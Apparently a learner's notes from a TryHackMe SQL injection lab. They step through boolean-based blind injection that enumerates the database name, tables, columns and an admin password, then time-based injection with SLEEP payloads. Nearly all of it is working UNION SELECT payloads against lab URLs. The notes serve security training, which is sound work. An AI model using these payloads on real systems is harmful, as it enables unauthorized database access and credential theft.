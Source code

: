 admin123' UNION SELECT 1,2,3 where database() like 'a%';--
admin123' UNION SELECT 1,2,3 where database() like 'b%';--
…
admin123' UNION SELECT 1,2,3 where database() like 's%';--   ← True again! The first letter is s


admin123' UNION SELECT 1,2,3 where database() like 'sa%';--
admin123' UNION SELECT 1,2,3 where database() like 'sb%';--
…
admin123' UNION SELECT 1,2,3 where database() like 'sq%';--
until
admin123' UNION SELECT 1,2,3 where database() like 'sqli_three%';--

look for tables in the database:
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
b
… (I tried e for employees and then u for users lol, nice with easy names)
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'users';--

look for column names:
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
b
---
found
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'username';--                   ← True!
password

exclude stuff like this:
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

find the username:
admin123' UNION SELECT 1,2,3 from users where username like 'a%

admin123' UNION SELECT 1,2,3 from users where username like 'admin';--  ← True!

look for the password:
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

password is 3845


#### Blind time based SQLi

Uses sleep to see true/false

https://website.thm/analytics?referrer=tryhackme.com

admin123' UNION SELECT SLEEP(5);--               ← No delay
admin123' UNION SELECT SLEEP(5),2;--            ← Delay!! Table has two columns

admin123' UNION SELECT SLEEP(2),2 WHERE database() like 'sqli_four';--    ← database name = sqli_four
